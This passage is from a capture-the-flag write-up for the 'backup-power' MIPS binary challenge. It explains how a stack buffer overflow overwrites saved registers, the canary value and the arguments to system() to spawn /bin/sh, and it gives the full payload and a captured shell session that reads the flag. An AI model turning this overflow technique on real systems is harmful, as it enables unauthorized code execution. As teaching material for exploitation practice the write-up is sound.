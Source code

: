 ```sh
sh: 1: AAAA/sh: not found
```

The arguments to `system` get corrupted, because in `develper_power_management_portal` the `s` registers are given values loaded from the stack, and in `main`, values from `s` registers are stored onto the stack.
<br>
The value of `arg1` becomes `"AAAA/sh"`. The value of `arg2`, `arg3`, `arg4` becomes `"AAAA"`.
We desire arguments other than `arg1` to be empty string, i.e., `\x00`, so a simple solution is to replace all `"A"` with `"\x00"` in the payload.

```asm
        00400b1c af d4 01 f8     sw         s4,0x1f8(s8)
```

The above instruction stores `$s4` at `s8+0x1f8 = sp+0x240 = $buffer+0x228`, which is same as `arg1`.
So, we must ensure that `$s4` is equal to `/bin`.

```asm
        00400ed8 8f b4 00 30     lw         s4,0x30(sp)
```

The above instruction loads `$s4` from `sp+0x30 = $buffer+0x18`. So, we modify our payload accordingly.

```py
payload = (
    b"\x00" * 0x18  # fill till $s4
    + b"/bin"  # write $s4 (upto $buffer+0x1c)
    + b"\x00" * (0x2c - 0x1c)  # fill till stack canary
    + p32(0x400B0C)  # write the stack canary (upto $buffer+0x30)
    + b"B" * (0x48 - 0x30)  # fill till $gp
    + p32(0x4AA330)  # write $gp (upto $buffer+0x4c)
    + b"C" * (0x128 - 0x4c)  # fill till command
    + b"system\x00"  # write the command (upto $buffer+0x12f)
    + b"D" * (0x220 - 0x12f)  # fill till system_str
    + b"system\x00"  # write the system_str (upto $buffer+0x227)
    + b"E"  # fill till arg1
    + b"/bin/sh\x00"  # write arg1 (upto $buffer+0x230)
)
```

And this does the job. We get a shell.

```sh
[+] Opening connection to backup-power.chal.uiuc.tf on port 1337: Done
[*] Switching to interactive mode
$ ls
Makefile
backup-power
backup-power.c
flag.txt
$ cat flag.txt
uiuctf{backup_p0wer_not_r3gisters}
```

The final exploit script is [solve.py](solve.py).
